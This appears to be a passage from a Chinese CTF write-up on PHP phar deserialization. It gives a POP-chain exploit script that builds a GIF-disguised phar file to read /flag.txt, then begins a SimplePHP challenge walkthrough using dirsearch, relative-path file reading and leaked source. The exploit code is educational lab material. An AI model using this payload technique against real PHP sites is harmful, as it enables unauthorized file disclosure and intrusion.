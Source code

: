 ```
    `$user -> __destruct() => $db -> close() => $db->__call(close) => $file -> close() =>$results=file_get_contents($filename) => FileList->__destruct()输出$result`

- pop链

    ```php
    <?php
    class User {
        public $db;
        public function __construct(){
            $this->db=new FileList(); 
        }
    }
    
    class FileList {
        private $files;
        private $results;
        private $funcs;
        public function __construct(){
            $this->files=array(new File());  
            $this->results=array();
            $this->funcs=array();
        }
    }
    
    class File {
        public $filename="/flag.txt";
    }
    
    $user = new User();
    $phar = new Phar("shell.phar"); //生成一个phar文件，文件名为shell.phar
    $phar-> startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER();?>"); //设置stub
    $phar->setMetadata($user); //将对象user写入到metadata中
    $phar->addFromString("shell.txt","snowy"); //添加压缩文件，文件名字为shell.txt,内容为snowy
    $phar->stopBuffering();
    ```

#### SWPUCTF2018 SimplePHP(文件泄露+phar反序列化)

1. 进去后发现文件上传，以为时文件上传漏洞，测试过后才发现只能上传图片类型，有后缀名校验，所以木马行不通，查看第二个文件展示页面，但是没有东西，url中有一个file参数，，用之前传的文件的文件名测试也不行，返回的都是文件不存在，所以这里猜测，文件名应该被改成md5加密ip地址或者文件名什么的了。
2. 用dirsearch扫描目录看到一个`/upload/`，访问了一下，发现里面存放的正好是之前上传的文件，结合文件展示页面，把文件名赋值给file参数，还是不行；改成`/upload/xxx.jpg`，还不行，想到用相对路径，成功。
3. 读取源码。(关键源码如下)

    file.php
    ```php
    <?php 
    header("content-type:text/html;charset=utf-8");  
    include 'function.php'; 
    include 'class.php'; 
    ini_set('open_basedir','/var/www/html/'); 
    $file = $_GET["file"] ? $_GET['file'] : ""; 
    if(empty($file)) { 
        echo "<h2>There is no file to show!<h2/>"; 
    } 
    $show = new Show(); 
    if(file_exists($file)) { 
        $show->source = $file; 
        $show->_show(); 
    } else if (!empty($file)){ 
        die('file doesn\'t exists.'); 
```